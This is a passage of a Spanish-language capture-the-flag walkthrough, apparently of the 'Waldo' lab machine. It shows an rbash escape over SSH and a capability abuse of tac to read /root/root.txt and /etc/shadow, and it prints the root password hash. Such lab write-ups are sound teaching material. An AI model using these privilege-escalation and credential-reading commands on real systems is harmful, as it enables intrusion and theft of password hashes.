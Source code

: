 ```bash
                            Here's Waldo, where's root?
Last login: Tue Jul 24 08:09:03 2018 from 127.0.0.1
-rbash: alias: command not found
monitor@waldo:~$ 
```

Ahora tenemos que escapar nos vamos a enviar una `bash` antes 

```bash
waldo:~/.ssh$ ssh -i .monitor monitor@localhost bash
whoami
monitor
script /dev/null -c bash
Script started, file is /dev/null
monitor@waldo:~$ 
```

## Escalada de privilegios

Vamos a exportar otra vez nuestro **PATH**

```bash
monitor@waldo:~$ echo $PATH
/root/.local/bin:/snap/bin:/usr/sandbox/:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/usr/share/games:/usr/local/sbin:/usr/sbin:/sbin:/opt/nvim-linux64/bin:/opt/i3lock-fancy:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/root/.fzf/bin
monitor@waldo:~$ export TERM=xterm
```

Si enumeramos por `capabilities` vemos las siguientes `tac` es lo contrario de `cat`

```bash
monitor@waldo:/home/nobody$ getcap -r / 2>/dev/null
/usr/bin/tac = cap_dac_read_search+ei
/home/monitor/app-dev/v0.1/logMonitor-0.1 = cap_dac_read_search+ei
monitor@waldo:/home/nobody$ 
```

## root.txt

Y bueno como podemos ver archivos pues vamos a ver la `root.txt`

```bash
monitor@waldo:/home/nobody$ tac /root/root.txt
7f680a52657f6c1ee72752e7ab096955
```

Como `tac` te muestra las cosas de abajo hacia arriba podemos hacer esto para ver el contenido de la manera correcta y ver los `hashes` de los usuarios

```bash
monitor@waldo:/home/nobody$ tac /etc/shadow | tac
root:$6$tRIbOmog$v7fPb8FKIT0QryKrm7RstojMs.ZXi4xxHz2Uix9lsw52eWtsURc9dwWMOyt4Gpd6QLtVtDnU1NO5KE5gF48r8.:17654:0:99999:7:::
daemon:*:17653:0:99999:7:::
bin:*:17653:0:99999:7:::
sys:*:17653:0:99999:7:::
sync:*:17653:0:99999:7:::
games:*:17653:0:99999:7:::
man:*:17653:0:99999:7:::
lp:*:17653:0:99999:7:::
mail:*:17653:0:99999:7:::
news:*:17653:0:99999:7:::
uucp:*:17653:0:99999:7:::
proxy:*:17653:0:99999:7:::
www-data:*:17653:0:99999:7:::
backup:*:17653:0:99999:7:::
list:*:17653:0:99999:7:::
```